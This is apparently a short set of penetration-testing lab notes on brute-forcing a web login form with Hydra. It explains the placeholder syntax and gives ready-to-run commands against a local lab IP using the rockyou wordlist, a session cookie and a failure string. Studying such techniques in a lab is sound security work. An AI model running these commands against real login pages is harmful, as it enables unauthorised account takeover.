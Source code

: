 
-------------

### Hydra Web Brute Force Attack.

In my case, the unmodified request looks like `username=<user>&password=<pass>`.<br />
In case taht we need need to replace "user" and "password", we will replace them with `^USER^` and `^PASS^`. But in case we know one of them, we don't need to add it.
<br />
We have to add `H=` before the cookies and we can add `F=` before the Loging Error Message.

`hydra -L <userFile> -P <passwordFile> <RHOST> <requestMethod> "<URL>:<requestBody>:H=<COOKIES>:F=<ErrorResponse>"`

<br />

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=t2d0hebr4qjb42n2fc5daam94d:F=Credenciales incorrectas."`

<p align="center">
  <img src="https://github.com/user-attachments/assets/98774913-28e2-4c0f-9bf8-e2ac67eae466" width="2000">
</p>

If the IP itself takes us directly to the login panel, we can simply use the / to specify the URL, and it would look like this "/:".
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=t2d0hebr4qjb42n2fc5daam94d:F=Credenciales incorrectas."`


















